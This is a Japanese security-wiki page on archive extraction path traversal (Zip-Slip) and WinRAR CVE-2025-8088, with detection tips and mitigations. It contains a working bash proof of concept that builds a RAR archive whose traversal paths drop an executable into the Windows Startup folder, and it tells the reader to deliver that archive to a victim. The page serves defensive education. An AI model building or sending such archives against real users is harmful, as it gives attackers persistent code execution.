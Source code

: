 # アーカイブ抽出パストラバーサル ("Zip-Slip" / WinRAR CVE-2025-8088)

{{#include ../banners/hacktricks-training.md}}

## 概要

多くのアーカイブ形式（ZIP、RAR、TAR、7-ZIPなど）は、各エントリが独自の**内部パス**を持つことを許可します。抽出ユーティリティがそのパスを盲目的に尊重すると、`..`を含む巧妙に作成されたファイル名や**絶対パス**（例：`C:\Windows\System32\`）がユーザーが選択したディレクトリの外に書き込まれます。この種の脆弱性は*Zip-Slip*または**アーカイブ抽出パストラバーサル**として広く知られています。

結果は、任意のファイルの上書きから、Windowsの*スタートアップ*フォルダなどの**自動実行**場所にペイロードをドロップすることによって**リモートコード実行（RCE）**を直接達成することまで多岐にわたります。

## 根本原因

1. 攻撃者は、1つ以上のファイルヘッダーが以下を含むアーカイブを作成します：
* 相対トラバーサルシーケンス（`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`）
* 絶対パス（`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`）
2. 被害者は、埋め込まれたパスを信頼し、それをサニタイズしたり選択したディレクトリの下に強制的に抽出したりしない脆弱なツールでアーカイブを抽出します。
3. ファイルは攻撃者が制御する場所に書き込まれ、システムまたはユーザーがそのパスをトリガーする次回に実行/ロードされます。

## 実際の例 – WinRAR ≤ 7.12 (CVE-2025-8088)

Windows用のWinRAR（`rar` / `unrar` CLI、DLL、およびポータブルソースを含む）は、抽出中にファイル名を検証することに失敗しました。悪意のあるRARアーカイブには、次のようなエントリが含まれていました：
```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```
選択した出力ディレクトリの**外**にあり、ユーザーの*Startup*フォルダー内に入ります。ログオン後、Windowsはそこに存在するすべてを自動的に実行し、*永続的*なRCEを提供します。

### PoCアーカイブの作成 (Linux/Mac)
```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
オプション使用:
* `-ep`  – ファイルパスをそのまま保存（先頭の `./` は削除しない）。

`evil.rar` を被害者に配布し、脆弱な WinRAR ビルドで解凍するよう指示します。

### 実際の悪用の観察

ESET は、カスタマイズされたバックドアを展開し、ランサムウェア操作を促進するために CVE-2025-8088 を悪用した RAR アーカイブを添付した RomCom (Storm-0978/UNC2596) のスピアフィッシングキャンペーンを報告しました。

## 検出のヒント

* **静的検査** – アーカイブエントリをリストし、`../`、`..\\`、*絶対パス* (`C:`) または非正準 UTF-8/UTF-16 エンコーディングを含む名前をフラグします。
* **サンドボックス抽出** – *安全な* エクストラクタ（例: Python の `patool`、7-Zip ≥ 最新、`bsdtar`）を使用して使い捨てディレクトリに解凍し、結果のパスがディレクトリ内に留まることを確認します。
* **エンドポイント監視** – アーカイブが WinRAR/7-Zip/etc. によって開かれた直後に `Startup`/`Run` ロケーションに書き込まれた新しい実行可能ファイルに警告します。

## 緩和策と強化

1. **エクストラクタを更新** – WinRAR 7.13 は適切なパスのサニタイズを実装しています。ユーザーは手動でダウンロードする必要があります。WinRAR には自動更新メカニズムがありません。
2. 可能な場合は **「パスを無視」** オプション（WinRAR: *Extract → "Do not extract paths"*）でアーカイブを抽出します。
3. 信頼できないアーカイブは **サンドボックス** または VM 内で開きます。
4. アプリケーションホワイトリストを実装し、ユーザーの自動実行ディレクトリへの書き込みアクセスを制限します。

## 追加の影響を受けた / 歴史的なケース

* 2018 – 多くの Java/Go/JS ライブラリに影響を与えた Snyk の大規模な *Zip-Slip* アドバイザリー。
* 2023 – `-ao` マージ中の類似のトラバーサルに関する 7-Zip CVE-2023-4011。
* 書き込み前に `PathCanonicalize` / `realpath` を呼び出さないカスタム抽出ロジック。

## 参考文献

- [BleepingComputer – WinRAR ゼロデイがアーカイブ抽出にマルウェアを植え付けるために悪用される](https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/)
- [WinRAR 7.13 チェンジログ](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5)
- [Snyk – Zip Slip 脆弱性の詳細](https://snyk.io/research/zip-slip-vulnerability)

{{#include ../banners/hacktricks-training.md}}
